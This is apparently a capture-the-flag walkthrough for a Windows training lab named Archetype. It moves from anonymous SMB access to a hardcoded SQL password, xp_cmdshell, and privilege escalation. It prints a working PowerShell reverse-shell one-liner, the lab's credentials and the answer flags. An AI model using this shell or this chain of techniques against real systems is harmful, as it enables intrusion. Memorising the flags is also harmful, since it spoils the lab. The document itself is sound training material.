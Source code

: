 ### Archetype

**OS:** Windows<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 2](/StartingPoint/Tier2/)<br><br>
**Tags:** Protocols, MSSQL, SMB, Powershell, Reconnaissance, Remote Code Execution, Clear Text Credentials, Information Disclosure, Anonymous/Guest Access<br>


---

#### Task 1
**Which TCP port is hosting a database server?**
> 1433

Using the `nmap` command, we see that there is a `ms-sq-s` database server running on port `1433`:

![TCP Port Scan](tcp_scan.png)



---

#### Task 2
**What is the name of the non-Administrative share available over SMB?**
> backups

We use the `smbclient` command with the `-N` flag to connect to the SMB Server without authentication and the `-L` flag to list all available shares. Administrative shares have a `$` at the end of their names. Therefore the `backups` share is the only non-Administrative one on the SMB server:

![List All Shares on the SMB Server](list_shares.png)



---

#### Task 3
**What is the password identified in the file on the SMB share?**
> M3g4c0rp123

We access the `backups` share anonymously and download the `prod.dtsConfig` file. We display the contents of `prod.dtsConfig` and see that the password is hardcoded into the config file:

![View Config File](password.png)



---

#### Task 4
**What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**
> mssqlclient.py

We can use the credentials we found in the `prod.dtsConfig` file to authenticate to the target Microsoft SQL Server. We login as the `sql_svc` user in the `ARCHETYPE` domain using the password `M3g4c0rp123`:

![Impacket Authenticated Establishing Connection to SQL Server](mysql.png)



---

#### Task 5
**What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**
> xp_cmdshell

In our SQL shell, we want to use the `xp_cmdshell` stored procedure and need to enable the feature using the `sp_confgiure` command:

![Windows Command Shell](cmd_shell.png)



---

#### Task 6
**What script can be used in order to search possible paths to escalate privileges on Windows hosts?**
> winpeas

We download the `winpeas.exe` file and create a reverse shell in powershell `rev_shell.ps1` that connects to port `4242` of our computer:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.16',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Next we set up an HTTP server on port `12345` of our own machine in the same directory as our `winpeas.exe` and `rev_shell.ps1` files:

![HTTP Server](get_files.png)

We can run powershell commands using our Windows command shell with the `powersehll -c {cmd}` command. We try to download files to the Administrator's directory and aren't allowed. However, we do have permissions in the sql_svc user's directory. We use our Windows command shell to execute a powershell command download the `winpeas.exe` and `rev_shell.ps1` files:

![Our Downloaded Malicious Files](get_files2.png)

Next we setup a listener on our own computer using the `nc` command with the `-lvnp` flag on port `4242`. Then we go back to our Windows command shell and run the powershell command `powershell -noexit .\../../Users/sql_svc/rev_shell.ps1` which uses runs our reverse shell script:

![Running the Shell](run_shell.png)

Next we go back to our computer's netcat listener and see that we have a reverse shell. Then we are able to run winpeas.

![Shell](shell.png)



---

#### Task 7
**What file contains the administrator's password?**
> ConsoleHost_history.txt

We run the `.\winpeas.exe systeminfo` command and see that we can view the PowerShell history file  `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`:

![Winpeas Output](stolen_credentials.png)

Next we use the `cat` command to view the PowerShell history file:

![Stolen Credentials](stolen_credentials2.png)

We see that there is an `Administrator` user with the password `MEGACORP_4dm1n!!`.



---

#### User Flag
> 3e7b102e78218e935bf3f4951fec21a3

We use navigate to sql_svc's desktop and use the `cat` command to view the user flag `user.txt`:

![User Flag](flag1.png)



#### Root Flag
> b91ccec3305e98240082d4474b848528

Lastly we use Impacket's psexec script with our stolen Administrator credentials to login to the target machine. We then view the contents of the Administrator flag `root.txt` with the `more` command:

![Administrator Flag](flag2.png)

---